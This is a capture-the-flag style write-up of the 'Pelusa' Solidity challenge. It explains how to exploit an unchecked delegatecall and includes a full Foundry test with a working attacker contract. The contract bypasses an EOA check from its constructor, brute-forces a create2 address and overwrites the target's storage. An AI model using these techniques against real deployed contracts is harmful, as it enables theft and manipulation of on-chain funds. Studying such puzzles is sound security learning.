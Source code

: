 ## Pelusa handOfGod attack

The Pelusa contract is vulnerable to an **delegatecall** to a address that can be set arbitrarily via `passTheBall()`.

To pass the checks in `passTheBall()` to set our desired "poisoned" contract as the destination for the delegatecall we need to pass two checks.

- `require(msg.sender.code.length == 0, "Only EOA players");` => this can be passed when we call the function in the constructor or our attacker contract
- `require(uint256(uint160(msg.sender)) % 100 == 10, "not allowed");` => this can be passed with a contract address that will pass the check. If we use create2 we can calculate this offchain or we can just bruto-force creations until we pass it as shown in the POC.

When we set the player address in Peluga, we also need to pass the following checks
- `require(isGoal(), "missed");` => here we need to return the right owner when our player contract is called via getBallPossesion(). We can pre calculate the owner and save it in out player contract when we deploy it. We can just calculate the address with calling `address(uint160(uint256(keccak256(abi.encodePacked(msg.sender, blockhash(__BLOCKNUMBER_WHERE_PELUGA_WAS_DEPLOYED__))))))` in our deployment. As long as we deploy our attacker contract inside the next 256 blocks we can just use the function blockhash, if it is older, we need to lookup the blockhash off-chain to calculate the value.
- `require(uint256(bytes32(data)) == 22_06_1986);` => we pass when handOfGod() is returning this uint value.

In our player contract, we then just manipulate the storage variable `goals` in the delegatecall to `handOfGod()`.

## Test

forge test --match-contract=PelusaTest
```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.17;

import "forge-std/Test.sol";

contract PelusaTest is Test {
    Pelusa private pelusa;

    address private pelusaDeployer = makeAddr("PelusaDeployer");
    bytes32 private blockHash;

    function setUp() public {
        // deploy Pelusa via PelusaDeployer
        vm.roll(100); // Pelusa will be deployed on block.number = 101
        vm.startPrank(pelusaDeployer, pelusaDeployer);
        pelusa = new Pelusa();
        blockHash = blockhash(block.number);
        vm.stopPrank();
    }

    function testAttack() public {     
      
      PlayerAttacker playerAttacker;

      // compute the owner address that was calculated in the Pelusa deployment
      address ownerOfPelusa = address(uint160(uint256(keccak256(abi.encodePacked(pelusaDeployer, blockhash(101))))));
      
      uint256 salt;
      for(uint256 i; i < 1;) {
        // we try to deploy a new Attacker contracts via create2 until we have a contract address that will pass the check
        // uint256(uint160(msg.sender)) % 100 == 10
        // this could also be done offchain as we use create2 to deploy the attacker contract
        ++salt;
        try new PlayerAttacker{salt: bytes32(salt)}(pelusa, ownerOfPelusa) returns (PlayerAttacker attacker) {
          playerAttacker = attacker;
          i++;
        } catch {}
      }

      // check that our attacker contract has the ball and returns the right "owner"
      assertTrue(pelusa.isGoal());

      pelusa.shoot(); // shoot and via delegatecall count goals up in peluga

      assertEq(pelusa.goals(), 2); // we passed
    }
}

interface IGame {
    function getBallPossesion() external view returns (address);
}

contract PlayerAttacker is IGame {
    // copy storage from Pelusa    
    address internal player;
    uint256 public goals = 1;

    Pelusa private immutable pelusa;
    address private immutable isGoalReturner;

    constructor(Pelusa _pelusa, address _isGoalReturner) {
      pelusa = _pelusa;
      isGoalReturner = _isGoalReturner;

      pelusa.passTheBall();
    }

    function getBallPossesion() external view returns (address) {
      return isGoalReturner;
    }

    function handOfGod() external returns (uint256) {
        goals++;
        return 22_06_1986;
    }
}

// "el baile de la gambeta"
// https://www.youtube.com/watch?v=qzxn85zX2aE
// @author https://twitter.com/eugenioclrc
contract Pelusa {
    address private immutable owner;
    address internal player;
    uint256 public goals = 1;

    constructor() {
        owner = address(uint160(uint256(keccak256(abi.encodePacked(msg.sender, blockhash(block.number))))));
    }

    function passTheBall() external {
        require(msg.sender.code.length == 0, "Only EOA players");
        require(uint256(uint160(msg.sender)) % 100 == 10, "not allowed");

        player = msg.sender;
    }

    function isGoal() public view returns (bool) {
        // expect ball in owners posession
        return IGame(player).getBallPossesion() == owner;
    }

    function shoot() external {
        require(isGoal(), "missed");
				/// @dev use "the hand of god" trick
        (bool success, bytes memory data) = player.delegatecall(abi.encodeWithSignature("handOfGod()"));
        require(success, "missed");
        require(uint256(bytes32(data)) == 22_06_1986);
    }
}
```
